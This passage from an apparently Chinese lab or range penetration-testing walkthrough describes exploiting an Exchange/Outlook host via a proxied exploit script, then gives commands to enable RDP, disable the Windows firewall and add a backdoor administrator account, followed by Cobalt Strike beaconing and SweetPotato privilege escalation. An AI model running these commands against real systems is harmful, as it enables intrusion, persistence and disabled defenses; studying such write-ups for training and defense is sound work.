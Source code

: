 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b5w4WoJT4VwOPC4A30ap3LMcm5gs2XoqoXdYayLFSCvzu1YJ97VpBAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7brKwjpQ3WtcW6qQsw5OlotVaqgZxpDRshNnT8vYBUIndPTOibuznccaQ/640?wx_fmt=png)

在 “C:\Users\Administrator\Documents\Outlook 文件 \” 找到对应文件以及关键邮箱

利用 exp 进行 system 权限操作

proxychains python3 exprolog.py -t 10.10.10.209 -e test@cncat.cc -i cmd 命令（进行交互）

开启 3389：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
关闭防火墙：NetSh Advfirewall set allprofiles state off
添加用户、用户组：
net user ew admin@123 /add
net localgroup Administrators ew /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bsaDG5GvMibqWfg7Eel8ibC2ygyj1bJSzmXZiaN1yJgQMISia7qxWhlxiaBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bHpS3YCQeewA1aXPtZh4I9FACkicMDRHPR2EaOThwclDZhwVaUvibEfZw/640?wx_fmt=png)

Cobaltstrike 上线

这里要生成 10 段网卡地址的后门进行上线。

同样的也要用到 SweetPotato（甜土豆）/Ladon 进行提权上线。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bibib6KZMxia8icfia2nWGGC4Kj3Ht6SxzAI37krCFl2bVWQ6ibrCicbWuaWAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bZUz0kApMwGECY2c71Dfvo9U2rPQ2e6z5NLLJqYdjKvdxtVIVr0sO8g/640?wx_fmt=png)

04

  

**第四关：域控**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bDYqI81GxBajMibbL4xJicp6VlnxVicNs8pEcTRpdmhslxAKbt6ENrjHTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bbib8SPgW0dDQlhKZjB73icl8NfR0qJQcfV5ZRyZIlhibic4pIlvYsr1FDw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bFsDGZ68wSfibPic283vjMibCibFP3nuiatM6HweDPm0TbyiaOXiaxKj6ZjmlQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7by8UF8Ht9ayqTP5SgRfWroW4KJcBl3NNVm2n2pCAvlJpdXq23GtYAGQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bWR3m0Hn5bQCm90P2JPX5elDBpJ4ys9kDhc9ibbicicqDccftnnic3Isrcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bcjeeWYtvelEN9SVFaHFI4Zk6myGibcRrwKGric5zcicw1mwNjf4ibBoUtg/640?wx_fmt=png)

============================================  
